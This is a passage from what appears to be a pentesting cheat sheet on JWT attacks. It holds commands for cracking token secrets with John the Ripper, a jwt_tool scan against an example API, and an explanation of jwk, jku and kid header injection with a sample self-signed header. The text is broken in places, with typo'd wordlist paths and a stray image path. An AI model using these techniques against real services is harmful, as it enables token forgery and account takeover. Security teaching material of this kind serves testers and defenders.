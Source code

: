 or Using John

```bash
john jwt.txt --wordlist==/usr/shere/wordlists/roukyou

```

{% embed url="https://github.com/wallarm/jwt-secrets" %}

{% embed url="https://github.com/ticarpi/jwt_tool" %}

```bash
python3 jwt_tool.py -M at \\
    -t "<https://api.example.com/api/v1/user/76bab5dd-9307-ab04-8123-fda81234245>" \\
    -rh "Authorization: Bearer eyJhbG...<JWT Token>"
```

#### Then, you can search the request in your proxy or dump the used JWT for that request using jwt\_ tool:

```bash
python3 jwt_tool.py -Q "jwttool_706649b802c9f5e41052062a3787b291"
```

### header parameter injections

_Interesting Headers_ :

* <mark style="color:red;">**`jwk`**</mark> (JSON Web Key) - Provides an embedded JSON object representing the key.
* <mark style="color:red;">**`jku`**</mark> (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.
* <mark style="color:red;">**`kid`**</mark> (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching <mark style="color:red;">**`kid`**</mark> parameter.

#### Injecting self-signed JWTs via the jwk parameter

<mark style="color:red;">**JWK (JSON Web Key):**</mark> It's a standardized format for representing cryptographic keys as JSON objects. In the context of JWS, the JWK format can be used to represent public keys.

```json
{
"kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
"typ": "JWT",
"alg": "RS256",
"jwk": {
		"kty": "RSA",
		"e": "AQAB",
		"kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
		"n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
	}
}
```

Public Key & Private Key
